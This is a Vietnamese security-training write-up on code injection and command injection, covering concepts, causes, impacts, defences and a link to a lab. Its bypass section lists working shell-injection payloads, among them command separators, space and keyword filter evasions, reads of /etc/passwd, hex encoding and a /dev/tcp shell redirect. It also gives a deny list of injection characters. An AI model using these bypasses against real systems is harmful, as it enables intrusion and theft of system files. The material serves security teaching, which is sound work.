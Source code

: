 ```
Task 10:
+ Tìm hiểu về lỗ hổng code injection  và command injection.(Khái niệm , nguyên nhân, tác hại + 1 số cách bypass, cách phòng chống).
+ Nêu ra điểm khác nhau giữa hai lỗi.
+ Làm lab demo hai lỗi trên.
```

# Code Injection
### Khái niệm
Code Injection là loại tấn công mà kẻ tấn công có thể chèn mã độc vào ứng dụng. Khi đó, ứng dụng thực thi đoạn mã độc đó và gây ảnh hưởng đến người dùng, máy chủ.
### Nguyên nhân
Nguyên nhân chính của `code injection` là việc không kiểm tra đầu vào đúng cách, sử dụng các thư viện không an toàn hoặc không cập nhật, hay không sử dụng các biện pháp bảo vệ bảo mật như mã hóa dữ liệu. Ngoài ra còn do server có các chức năng hoặc  thực hiện các hàm nguy hiểm mà người dùng kiểm soát được như: `eval()`, `system()`,...
### Tác hại 
- Tác hại của `code injection` có thể rất nghiêm trọng. Kẻ tấn công có thể truy cập và thay đổi dữ liệu, lấy cắp thông tin nhạy cảm, thực hiện các hành động trái phép trên hệ thống máy chủ, thậm chí kiểm soát toàn bộ máy chủ.
- Ngoài ra còn có thể dẫn đến các cuộc tấn công khác như: SQL injection, XXS, Command injection, ...
### Bypass:
- Exploit: `; ls` `&& ls`, `| ls`, `|| ls`,...
- Bypass space:
  - Sử dụng `<`: `cat</etc/passwd`
  - Sử dụng `$IFS`: `cat$IFS/etc/passwd`
  - Hoặc dùng shell: `sh</dev/tcp/127.0.0.1/4242`
  - ...
- Bypass words:
  - quote: `w'h'o'am'i`, `w"h"o"am"i`
  - blackslash, slash: `w\ho\am\i`, `/\b\i\n/////s\h`
  - $@: `who$()ami`
  - $(): `who$()ami`
  - `/usr/bin/who*mi` => `/usr/bin/whoami`
  - `$0` => bash
- Bypass characters:
  - `${HOME:0:1}`, `. | tr '!-0' '"-1'`, `${PATH:0:1}` => `/`
  - `${LS_COLORS:10:1}` => `;`
- Encoding hex: `\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64`, `2f6574632f706173737764` => `/etc/passwd`
- RCE with 4 or 5 char: <a href="https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#rce-with-5-chars">here</a>
### Cách phòng chống
- Xác thực đầu vào như sử dụng whitelist: chỉ cho phép các từ kiểm soát được.
- Mã hóa: escape HTML entities để hạn chế nguy cơ thành mã độc hoặc mã hóa dữ liệu bằng cách khác trước khi được lưu trữ hoặc chuyển lên internet.
- Sử dụng tường lửa, các công cụ phát hiện tấn công và thường xuyên cập nhật thư viện an toàn.
### Lab
<a href="https://github.com/caodchuong312/KCSC-Training/tree/main/task10/CommandInjectionLab">lab</a>
# Commmand Injection
### Khái niệm
Command injection là lỗ hổng mà kẻ tấn công có thể thực thi câu lệnh hệ điều hành trên máy chủ của ứng dụng đó
### Nguyên nhân
Nguyên nhân chính của command injection là thiếu kiểm tra đầu vào của ứng dụng hoặc sử dụng các hàm không an toàn trong xử lý đầu vào như: `system()`, `eval()`, `exec()`, ...
Khi những lỗ hổng này xảy, kẻ tấn công có thể thực hiện các hành động trái phép nh như xem, sửa đổi hoặc xóa dữ liệu, kiểm soát toàn bộ hệ thống, và thực hiện các cuộc tấn công khác như DoS,...
### Tác hại
Tác hại của command injection rất nghiêm trọng. Kẻ tấn công có thể kiểm soát hoàn toàn hệ thống, đọc và sửa đổi các tập tin quan trọng, truy cập và thay đổi cơ sở dữ liệu, thực hiện các hành động trái phép trên mạng. Ngoài ra còn có thể dẫn đến các cuộc tấn công khác để đạt được mục đích kể tấn công.

### Phòng chống
- Kiểm tra xác thực đầu vào: Dùng whitelist để cho phép các câu lệnh an toàn được thực thi, loại bỏ các ký tự có thể chèn mã đọc như: `;`, `"`, `'`, `|`, `&`,...
- Chỉ chấp nhận đầu vào chỉ có ký tự chữ và số, không có ký tự đặc biệt, khoảng trắng, ...
- Ngoài ra cần thường xuyên cập nhật ứng dùng, thư viên an toàn.


  
